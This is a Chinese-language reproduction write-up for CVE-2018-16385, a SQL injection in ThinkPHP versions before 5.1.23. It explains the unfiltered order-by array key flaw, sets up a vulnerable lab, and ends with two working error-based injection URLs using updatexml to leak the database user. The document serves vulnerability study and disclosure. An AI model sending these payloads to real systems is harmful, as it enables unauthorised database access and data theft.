 ```yaml
---
title: "（CVE-2018-16385）Thinkphp < 5.1.23 sql注入漏洞"
id: zhfly3169
---
```


# （CVE-2018-16385）Thinkphp 5.1.x SQL注入

## 一、漏洞简介

在ThinkPHP5.1.23之前的版本中存在SQL注入漏洞，该漏洞是由于程序在处理order by 后的参数时，未正确过滤处理数组的key值所造成。如果该参数用户可控，且当传递的数据为数组时，会导致漏洞的产生。

## 二、漏洞影响

ThinkPHP < 5.1.23

## 三、复现过程

### 环境搭建

#### 1.下载安装thinkphp5.1.x

对于thinkphp5.1.x完整版，目前官方没有直接下载的链接。Github上只是放出核心版。该版本需要以Composer或Git方式进行安装。

这里以Composer安装方式说明。

在 Linux 和 Mac OS X 中可以运行如下命令：

```
curl -sS https://getcomposer.org/installer | php `mv composer.phar/usr/local/bin/composer` 
```

在 Windows 中，你需要下载并运行 Composer-Setup.exe 。

安装好之后，切换路径到WEB目录下运行：

```
composercreate-project topthink/think=5.1.1 tp5.1 --prefer-dist 
```

然后会生成一个名为tp5.1的文件夹。到此think5.1.1下载成功。

#### 2.然后在浏览器中访问

![image](../img/505f3d280bad3198c0c7d8e58df6786b.png)

image.png如果出现该页面，则证明安装成功。

#### 3.Demo示例

![image](../img/1951a98ac248ee86b94f31374aaa1ecd.png)

编写Demo文件，并将文件命名为Test.php，然后放在/tp5.1/application/index/controller/目录下。

#### 4.数据库

与Demo文件匹配，需要创建一个user表，然后设一个字段(id)。

![image](../img/8c407e32eb23d9a8a4918ea0be1dce34.png)

### Payload构造

根据以上分析，构造payload需要满足以下条件：

1.传入的$order需要是一个数组。

2.$val 必须也是数组。

3.至少知道数据库表中的一个字段名称，并且传入两个参数。

4.闭合 ` 。

最终Payload构造如下：

```
http://0-sec.org/tp5.1/public/index/test/index?order[id`,111)|updatexml(1,concat(0x3a,user()),1)%23][]=1 
```

或

```
http://0-sec.org/tp5.1/public/index/test/index?order[id`,'aaa')| updatexml(1,concat(0x3a,user()),1)%23][]=1 
```